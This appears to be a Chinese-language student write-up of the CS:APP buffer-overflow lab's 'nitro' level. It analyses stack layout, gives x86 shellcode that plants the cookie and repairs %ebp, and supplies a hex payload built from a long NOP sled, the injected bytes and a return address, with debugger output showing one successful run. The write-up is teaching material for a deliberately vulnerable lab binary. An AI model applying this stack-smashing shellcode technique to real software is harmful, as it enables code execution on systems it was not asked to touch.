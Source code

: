 ```
ebp            0xffffb4e8          0xffffb4e8
```
由于 testn 和 getbuf 两个函数的栈是连续的，可以看到上边 %esp(testn)=%ebp(getbufn)+0x8，而 %ebp(testn)-%ebp(getbufn)=0x20。在返回 test 时，%esp+0x18 为此时 %ebp 的值。接下来编辑攻击代码
```
mov $0x46110021,%eax       # cookie 作为返回值
lea 0x18(%esp),%ebp        # 更正 %ebp
push $0x08048f8e           # 返回到 testn 函数中调用 getbufn 的下一条指令
ret
```
nitro.txt
```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 b8 21 00 11 46 8d 6c 24 18 68 8e
8f 04 08 c3 e8 b2 ff ff
```
最后来实现攻击效果。值得注意的是，由于 nitro 需要读入 5 次字符串，我们需要将此答案复制 5 次，换行输入。指导书里边说不能使用 '\n'（即 0x0a），解决方法为直接在 sendstring 时使用 '-n' 参数（这个是我试出来的）。

![](https://github.com/Yudreamy/classlater/blob/master/csapp/datalab3/picture/handbook.PNG)

```
# 出现错误，只攻击了一次
Starting program: /home/myclass/csapp/bufbomb -t SA19225374+SA19225417+SA19225525 -n < exploit_nitro.txt 5
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021
Type string:KABOOM!: getbufn returned 0x46110021
Keep going                 # 这里说明我们的 payload 是正确的
Type string:Dud: getbufn returned 0x1
Type string:Dud: getbufn returned 0x1
Type string:Dud: getbufn returned 0x1
Type string:Dud: getbufn returned 0x1
[Inferior 1 (process 30952) exited normally]
```